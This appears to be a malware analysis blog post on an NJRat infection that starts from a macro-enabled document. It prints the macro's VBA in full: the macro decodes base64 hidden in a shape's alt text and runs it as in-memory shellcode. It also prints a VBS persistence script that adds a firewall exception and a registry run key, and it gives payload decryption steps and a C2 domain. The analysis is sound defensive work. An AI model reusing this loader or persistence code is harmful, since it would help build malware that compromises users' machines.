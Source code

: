 ```yaml
---
tags: RATs
---
```

## NJRat Injection From Malicious Document

Another RAT variant, NJRat is typically attributed to ECrime actors, it is supposedly popular with actors in the Middle East. It's primary infection vectors are phishing attacks and drive-by downloads, and like many other RATs, it has the capability to log keystrokes, access the victim's camera, steal credentials stored in browsers, open a reverse shell, upload/download files, view the victim's desktop, perform process, file, and registry manipulations, etc...

This sample was taken from the following [tweet](https://twitter.com/DmitriyMelikov/status/1696050783790207060)

[-] Maldoc [VirusTotal](https://www.virustotal.com/gui/file/12237938501141149337015c546b5e02acf3b98c1c26a84b5b4befd97d0f66d0/detection)

[-] PE Payload [VirusTotal](https://www.virustotal.com/gui/file/66702e21faa38c24f49a33112d2036d8f3b6bcfd686db47299a4dc44dedf13d8/detection)

## Maldoc

Like most other maldocs which leverage macros, the document lures the user into enabling content.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/da75e6b8-26e0-4d18-ba83-fd86a19bcdd9)

We can interrogate this macro by using OLE tools to view it.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c521ee37-e76b-4b24-b3f7-7bf4dd102d94)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/66db0700-4e12-4eba-94e4-6621bb1b38d7)

```
Attribute VB_Name = "Module1"
Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal six As Long, ByVal five As Long, ByVal four As LongPtr, three As Long, ByVal two As Long, one As Long) As LongPtr
Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal seven As Long, ByVal eight As Long, ByVal nine As Long, ByVal ten As Long) As LongPtr
Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal eleven As LongPtr, ByVal twelve As LongPtr, ByVal thirteen As Long) As LongPtr
Public Function db(base64) As Byte()
  Dim DM As Variant, EL As Variant
  Set DM = CreateObject("Microsoft.XMLDOM")
  Set EL = DM.createElement("tmp")
  EL.DataType = "bin.base64"
  EL.Text = base64
  db = EL.NodeTypedValue
End Function

Sub autoopen()
    Dim var2() As Byte
    Dim var4 As LongPtr
    Variables = ActiveDocument.InlineShapes(1).AlternativeText
    var2 = db(Variables)
    var6 = VirtualAlloc(0, UBound(var2), &H1000, &H40)
    var4 = RtlMoveMemory(var6, VarPtr(var2(0)), UBound(var2))
    var4 = CreateThread(0, 0, var6, 0, 0, 0)

   ActiveDocument.Range.Font.Hidden = False
End Sub
```

Essentially, a Base64 string is being taken from ActiveDocument.InlineShapes(1).AlternativeText and decoded, we can assess that the contents are then executed in memory using CreateThread, VirtualAlloc and RtlMoveMemory API calls.

The base64 string is hidden inside a text box on the first page of the document, utilising the Alternative Text field

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/4c944195-0f30-4bdb-bf49-6967865241bd)

I found the full string by querying the 'Data' stream, using OLE tools.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/fe007626-91e1-4cc1-b51f-5667a6ddfdf0)

_Base64 Snippet:_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/53b37b49-c1de-4051-83c8-fae9faddce0c)


Once this code is injected and executed, it drops a PE in the location 'C:\Users\user\AppData\Roaming\netflex\netflex.exe', as well as employing some persistence mechanisms, such as a vbs script in the startup folder and a registry run key.

**VBS Script**
```
dim shellobj
set shellobj = wscript.createobject("http://wscript.shell")
ddd= "netsh firewall add allowedprogram c:\users\user\appdata\roaming\netflex\netflex.exe ""netflex.exe"" ENABLE"
cmdshell(ddd)
shellobj.regwrite "HKEY_CURRENT_USER\software\microsoft\windows\currentversion\run\"
split ("netflex.exe",".")(0), "c:\users\user\appdata\roaming\netflex\netflex.exe", "REG_SZ"
function cmdshell (cmd)
dim httpobj,oexec,readallfromany
set oexec = shellobj.exec ("%comspec% /C /Q /K /S"
if not oexec.stdout.atendofstream then
readallfromany = oexec.stdout.readall
elseif not oexec.stderr.atendofstream then
readallfromany = oexec.stderr.readall
readallfromany = ""
end if
cmdshell = readallfromany
end function
```

Added to the Startup directory, the vbs script adds the 'netflex' binary as an exception against Windows Firewall and creates a registry run key as a persistence mechanism.

## 1st Executable 

Taking a look at the dropped 'netflex.exe' in DNSpy, there are a few things to note.

Firstly, the binary does a basic check to decide if the host is in a virtualised environment by querying Win32_CacheMemory

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/6882b2c3-d2b7-4700-b20d-9296049a7200)

If there is a value for Win32_CacheMemory, the program assumes the host is not a virtual machine and will execute the next function.

The next function involves breaking/disabling AMSI and ETW, likely through the use of SharpUnhooker or a similar tool.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/48e550fc-4b5e-4fcf-9e93-438232dbdc9d)


Next up is the main function, which essentially decrypts and executes a payload in memory.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/af3e374a-7c42-4e6f-8775-aae8ad36c471)

The first line derives an AES key by getting the SHA 256 value of Settings.aes_key and taking the first 32 bytes.

The second line takes the contents of baseData, converts it from base64, decompresses the data with the Decompress function, decrypts the data and finally base64 decodes the unencrypted data.

_Decompress Function_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/a0e449f9-0ef4-4d75-b12f-19acbe97c7dd)

The key point here is that the first 4 bytes of baseData declare the length of the data and are not needed for decompression.

The Settings class is compromised of 3 key components, baseData, aes_key and aes_iv.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/1f4f0997-0af7-488a-bfde-bdd9bfda3e2d)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/6f646fb8-e4a7-4d4b-b7db-b210541829ea)

We now have everything needed to decrypt the base64 string.

1) Copy and paste the baseData string into CyberChef, convert it from base64.
   
2) Remove the first 4 bytes
   
3) Decompress with Gunzip
   
4) AES decrypt with base64 key "78e3e7cc513ff8ae00a177366efa4060" _(First 32 bytes of the SHA 256 value of 'Q4NP7JPHRA5AJB28')_
   
5) Decode from base64

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/aa810be8-fab3-4223-bf4a-7d1de792bfdd)

This leaves us with another .NET executable.

## 2nd Executable

Within this executable, we can see the C2 domain and installation directory being declared. 

**C2: netflex.duckdns[.]org:2255**

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/6f7fd25f-61d4-4658-bfac-a22c4f894da3)

There is also the capability for replication across removable media drives, creating the same vbs script which was mentioned before.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/381c8cc6-fca3-42da-ad73-5d1b4f3e790f)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/8eb4112f-fa44-46a2-924a-711cf073aca0)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b47f825d-f9e8-4a07-b3be-14859f79be54)

And previously noted registry run key additions.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d6b7e8d2-0be3-448d-9eb2-f1bb0ec4b51c)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d7224c19-bd8c-4827-a730-1183d14bfcc3)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/f4bf9291-5090-486c-bffd-33e51d3adcc3)

As well as the binary being copied to the Startup directory.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/27e7f7c9-0c18-4648-9119-7acc0357a85d)

















